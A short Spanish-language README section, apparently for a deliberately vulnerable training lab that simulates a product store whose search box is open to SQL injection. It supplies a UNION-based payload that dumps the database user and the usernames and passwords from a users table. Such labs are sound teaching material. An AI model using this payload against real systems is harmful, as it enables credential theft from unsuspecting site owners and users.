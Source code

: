 ## 🚨 SQL Injection (SQLi-Lab)
- Aplicación que simula una tienda de productos.
- Presenta una vulnerabilidad a inyección SQL en la búsqueda de productos.

Prueba un payload como en la barra de búsqueda de productos:
```sh
' union select user(),(select group_concat(username,':', password) from users),3 -- -
```